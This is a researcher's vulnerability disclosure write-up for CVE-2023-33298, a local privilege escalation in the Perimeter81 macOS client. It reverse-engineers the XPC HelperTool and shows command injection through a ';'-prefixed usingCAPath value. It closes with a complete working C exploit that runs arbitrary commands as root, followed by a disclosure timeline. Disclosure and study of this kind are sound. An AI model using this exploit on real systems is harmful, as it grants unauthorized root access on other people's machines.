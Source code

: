 ```yaml
---
title: CVE-2023-33298 - Perimeter81 Local Privilege Escalation
description: Exploiting XPC HelperTool to gain LPE
date: 2023-06-30T00:38:03.147668+02:00
toc: true
tags:
    - reverse-engineering
    - macos
    - cve
refs:
    - https://perimeter81.com
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-33298
    - https://www.kb.cert.org/vuls/id/653767
draft: false
---
```


# Introduction

Today we will be analyzing CVE-2023-33298 which is Local Privilege Escalation inside the Perimeter81 macOS application. We will be exploiting XPC service misconfiguration along with the Command Injection vulnerability 
to gain `root` privileges.

# Analysis

Perimeter81 adds an entry to _LaunchDaemons_, and we can examine the content of the `com.perimeter81.osx.HelperTool.plist` located inside `/Library/LaunchDaemons/` directory.

![LaunchDaemon plist file](../images/perimeter_helper_plist_file.png)

We can see that the key for `MachServices` is dictionary containing `com.perimeter81.osx.HelperTool`. This is the name of mach service which is exposed by the 
_com.perimeter81.osx.HelperTool_ binary.

If we now load `/Library/PrivilegedHelperTools/com.perimeter81.osx.HelperTool` inside the Hopper and search for `xpc_connection_create_mach_service` we can 
confirm that the function is called with `com.perimeter81.osx.HelperTool` as first argument.

![Mach Service Creation](../images/perimeter_service_creation.png)

From the image, we can also see that it calls `xpc_connection_set_event_handler` with `&var_40`. We can read [documentation](https://clang.llvm.org/docs/Block-ABI-Apple.html) and 
conlude that the structure contains `isa` pointer (which type of block is this), followed by two ints(flags and reserved) and finally `void (*invoke)(void *, ...);` function pointer 
which points to the actualy compiled block body.

Inside the disassembly, we can see that `*(&var_40 + 0x10) = sub_1002169d7;` points to `sub_1002169d7`. Let's now examine this function.

![Main connection handler](../images/perimeter_first_handler.png)

Inside the `else` we can see another call to `xpc_connection_set_event_handler` with the block that has `invoke` pointer set to `sub_100216a98`. Double clicking on this sub shows the following code.

![Peer connection handler](../images/perimeter_second_handler.png)

Based on this function we can conclude the following:

* We need to send the dictionary
* `type` inside the dictionary needs to be `rpc` or `helper_tool_rpc`.
* Function `sub_100216d6c` is called in multiple branches so we will check what that is
* We can also see that we have a line `r12 = xpc_dictionary_get_string(r13, "rpc");` followed by the check whether _r12_ is equal to *start_connection* so we can conclude that the key _rpc_ will contain some kind of function what to do.

Inspecting the `sub_100216d6c` function shows that it calls `-[SDHelperTool handleTargetServiceCommand:withRequest:withReply:]`.

![HandleTargetService](../images/perimeter_handletarget.png)

Since this method is a bit bigger, we will show only the beginning and the end of the function which are interesting.

![Check for target service](../images/perimeter_check_for_params.png)

We can see that it tries to extract the `parameters` and `target_service` keys. If `target_service` is NULL, it jumps to `loc_10020a119`. 

![Creation of generalInvoker selector](../images/perimeter_generalInvoker_create.png)

We can see that it saves `@selector(generalInvoker)` inside the `rax` register and then jumps back to `loc_10020a1c0`. `loc_10020a1c0` just calls `handleXPCServiceCommand:withParameters:withReply`.

![Calling handleXPCServiceCommand](../images/perimeter_handle_xpc.png)

If we search for "generalInvoker" in Hopper we can see that we have a match for `-[SDHelperTool setup_GeneralInvoker]` which allocates new object of class *SDHelperTool_InvokerGeneral*. 

![setup_GeneralInvoker](../images/perimeter_helpertool_general_invoker.png)

Searching for `DHelperTool_InvokerGeneral` reveals a lot of methods. After digging around a bit, I have found `install_SDP_CA:withReply:` which calls `security add-trusted-cert -d -r trustRoot -k /Library/Keychains/System.keychain %@` with the value from dictionary under the key `usingCAPath`. This is typical command injection where we can simply append `;` followed by the command we want to execute.

![Searching for DHelperTool_InvokerGeneral](../images/perimeter_invokergeneral_search.png)

![install_SDP_CA method](../images/perimeter_install_sdpca.png)

So to recap, our exploit should do the following:

* call `xpc_connection_create_mach_service` with `com.perimeter81.osx.HelperTool` as a name
* create a dictionary for __properties__ with the key __usingCAPath__ and value as __; some command to run as root__
* create another dictionary that will be our message with `type` as `helper_tool_rpc`, `rpc` as `install_SDP_CA`, and key `parameters` set to the previous dictionary
* send the message

# Full exploit

Full exploit looks like the following:

```c
#import <Foundation/Foundation.h>

#define NAME "com.perimeter81.osx.HelperTool"

int main(int argc, const char **argv) {
    if (argc != 2) {
        printf("missing cmd to execute\n");
        exit(1);
    }

    xpc_connection_t conn = xpc_connection_create_mach_service(NAME, NULL, 0);
    xpc_connection_set_event_handler(conn, ^(xpc_object_t object){
        NSLog(@"client received event: %s", xpc_copy_description(object));
    });
    xpc_connection_resume(conn);

    const char *c = argv[1];

    char cmd[250];
    sprintf(cmd, "; %s", c);

    // create dictionary to hold our parameters
    // method name and its parameters
    xpc_object_t params = xpc_dictionary_create(NULL, NULL, 0);
    xpc_dictionary_set_string(params, "usingCAPath", cmd);

    // create dictionary to send over xpc
    xpc_object_t message = xpc_dictionary_create(NULL, NULL, 0);
    xpc_dictionary_set_string(message, "type", "helper_tool_rpc");
    xpc_dictionary_set_string(message, "rpc", "install_SDP_CA");
    xpc_dictionary_set_value(message, "parameters", params);

    xpc_connection_send_message_with_reply(conn, message, dispatch_get_main_queue(), ^(xpc_object_t object){
        NSLog(@"Executed cmd: \"%s\"\n", c);
    });


    // create run loop so we can get async result for our command, otherwise the exploit would exit after sending the 
    // message
    dispatch_main();

    return 0;
}

```

![Running the exploit](../images/perimeter_exploit.png)

# Timeline

| Date            | Action                                                                      |
| --------------- | -----------                                                                 |
| 17 March 2023   | Sent report to Perimeter81                                                  |
| 21th March 2023 | Asked for an update, no reply                                               |
| 10th April 2023 | Asked for an update once more, got response that it was wrongly sidetracked |
| 19th April 2023 | Sent mail to see whether they have investigated it and working on it        |
| 10th May 2023   | Another mail and got no response                                            |
| 16th May 2023   | Contacted VINCE to coordinate disclosure                                    |

VINCE tried to contact them multiple times without success, so after more than three months I have decided to disclose the vulnerability.
